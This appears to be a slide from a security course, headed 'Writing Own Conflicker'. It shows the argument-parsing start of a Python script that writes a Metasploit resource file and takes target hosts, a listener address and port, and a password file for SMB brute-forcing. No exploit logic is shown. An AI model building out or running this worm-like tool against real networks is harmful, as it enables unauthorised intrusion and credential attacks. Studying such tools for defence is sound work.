

# Writing Own Conflicker
if __name__ == '__main__':
    with open('meta.rc', 'w') as metarc_file:
        parser = argparse.ArgumentParser(
            usage='python conficker.py TARGET_HOST[S] -l LHOST'
                  '[-p LPORT -f PASSWORD_FILE]')
        parser.add_argument('tgt_hosts', type=str, metavar='TARGET_HOST[S]',
                            help='specify the target host[s] address[es] '
                                 'separated by commas (no spaces')
        parser.add_argument('-l', type=str, metavar='LHOST', required=True,
                            help='specify the address of the listener')
        parser.add_argument('-p', type=int, metavar='LPORT', default=1337,
                            help='specify the port used by the listener')
        parser.add_argument('-f', type=str, metavar='PASSWORD_FILE',
                            help='password file for SMB brute-force attempt')